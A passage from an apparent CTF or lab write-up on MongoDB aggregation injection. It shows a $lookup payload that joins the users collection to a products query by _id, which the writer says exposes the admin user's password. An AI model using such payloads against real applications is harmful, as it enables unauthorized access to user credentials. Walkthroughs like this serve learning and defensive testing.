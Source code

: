So this is definitely an issue. Even if the query is being executed on the products collection, we can use lookup aggregation to join another collection (like users) and view the data. Let's take a look at both collections in the source code.

![](image-20230323143035853.png)

This is interesting. If we join users collection with products collection on the \_id field, we can pull the details of the admin user because the first product has the same \_id as the admin user i.e. 1.

This is what the $lookup syntax looks like.

```
{
   "$lookup":
     {
       "from": <collection to join>,
       "localField": <field from the input documents>,
       "foreignField": <field from the documents of the "from" collection>,
       "as": <output array field - can be string>
     }
}
```
So our payload will be:
```
[
  {
    "$lookup": {
      "from": "users",
      "localField": "_id",
      "foreignField": "_id",
      "as": "test"
    }
  }
]
```
We get the password of the admin user.

![](image-20230323143656782.png)
